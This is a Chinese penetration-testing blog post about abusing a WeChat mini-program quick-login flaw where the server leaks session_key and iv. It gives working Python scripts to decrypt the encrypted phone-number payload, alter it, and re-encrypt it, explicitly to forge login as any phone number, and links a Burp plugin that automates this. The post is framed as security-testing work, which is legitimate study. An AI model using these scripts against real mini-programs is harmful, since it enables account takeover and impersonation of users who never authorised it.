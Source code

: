 ```yaml
---
layout:     post
title:    wx小程序session_key利用插件
subtitle:   burp插件
date:       2020-08-04
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 渗透测试
    - 工具
    
    
    
---
```

# wx小程序session_key利用

## 开头
学习Poc Sir老师傅的微信小程序渗透五脉，最近在测试的过程种发现了一例快捷登录存在问题的小程序，要进行加解密，写了一个简单的burp插件，方便后续的工作。  
具体的原理这里不再进一步赘述。有兴趣的可以去看雷神众测的文章。  


## 中间
测试的时候发现一个小程序，能快捷登陆。  
![200804_1](/img/200804_login.jpg)   
抓登陆的包可以看到，啥都给出来的，显然存在问题，可以进行解密，篡改。  
![200804_2](/img/200804_logindata.jpg)  
然后来尝试加解密。  

## 加解密代码
在获取到session_key，以及iv的情况下，直接可以进行解密：  
```
#!python
#!/usr/bin/env python
# -*- coding:utf-8 -*-

import base64
from Crypto.Cipher import *


def decrypt(enStr, key, iv):
        cipher = AES.new(key, AES.MODE_CBC, iv)
        msg = cipher.decrypt(enStr)
        paddingLen = ord(msg[len(msg)-1])
        return msg[0:-paddingLen]


def decryptData(encryptedData, iv, sessionKey):
	aesIV = base64.b64decode(iv)
	aesCipher = base64.b64decode(encryptedData)
	aesKey = base64.b64decode(sessionKey)
	return decrypt(aesCipher, aesKey, aesIV)


if __name__ == '__main__':
	print decryptData(data, iv, sessionkey)
```
得到的结果格式如下：  
```
{
    "phoneNumber": "+85259883333",
    "purePhoneNumber": "59883333",
    "countryCode": "852",
    "watermark":
    {
        "appid":"APPID",
        "timestamp": TIMESTAMP
    }
}
```  
解密的结果：  
![200804_3](/img/200804_decrypt.jpg)  
然后可以对其进行修改后进行伪造，完成任意手机号码登陆。  
加密的代码：  
```
#!python
#!/usr/bin/env python
# -*- coding:utf-8 -*-

import base64
from Crypto.Cipher import AES


def encrypt(str, key, iv):
    cipher = AES.new(key, AES.MODE_CBC,iv)
    x = 16 - (len(str) % 16)
    if x != 0:
        str = str + chr(x)*x
    msg = base64.b64encode(cipher.encrypt(str))
    return msg

def encryptData(decryptedData, iv, sessionKey):
	aesIV = base64.b64decode(iv)
	aesKey = base64.b64decode(sessionKey) 
	return encrypt(decryptedData, aesKey, aesIV)

if __name__ == '__main__':
	print encryptData(data, iv, sessionKey)
```   
然后将得到的结果替换报文原来的加密内容。（这里是一次性有效的，无论成功与否）  


## 插件
简单的写了个burp的插件。  
![200804_4](/img/200804_burp.jpg)  
存在问题可以及时联系，或者自行修改
项目地址:[https://github.com/hmoytx/bp_miniprogram_decrypt](https://github.com/hmoytx/bp_miniprogram_decrypt)  

## 参考
[https://www.hackinn.com/index.php/archives/672/](https://www.hackinn.com/index.php/archives/672/)


